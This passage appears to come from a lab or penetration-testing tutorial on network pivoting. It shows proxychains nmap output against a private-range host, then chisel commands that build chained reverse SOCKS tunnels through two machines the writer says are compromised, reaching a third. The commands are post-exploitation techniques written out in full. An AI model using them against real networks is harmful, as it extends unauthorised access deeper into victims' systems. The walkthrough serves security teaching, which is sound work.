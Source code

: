 now scan 192.168.3.129 with proxychains nmap
```
$ proxychains nmap -p80 -Pn -sV  192.168.3.129
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-30 23:14 EDT
[proxychains] Strict chain  ...  127.0.0.1:1234  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1234  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1234  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1234  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1234  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1234  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1234  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1234  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1234  ...  192.168.3.129:80  ...  OK
Nmap scan report for 192.168.3.129
Host is up (0.0033s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
```
now we can use any tool but put proxychains before the command

now let's add another machine 

**machine3 - 192.168.4.128**

only machine2 can ping machine3

now we compromised machine1 and machine2  
we have reverse shell on machine2
inorder to pivot through machine2 to machine3

you need to setup a chisel server on machine1 and machine2 will connect to it and acts as socks

let's do it to get more clarity 

on my kali 
```
chisel server -p 5555 --reverse
```

on machine1

```
./chisel32 client 192.168.2.129:5555 R:1234:socks
```

now grab another shell on machine1 in the way you got first shell

now we  need to run this chisel as server on machine1
```
./chisel32 server -p 6666 --reverse
```

now on machine2 
```
./chisel32 client 192.168.3.128:6666 R:7777:socks
```

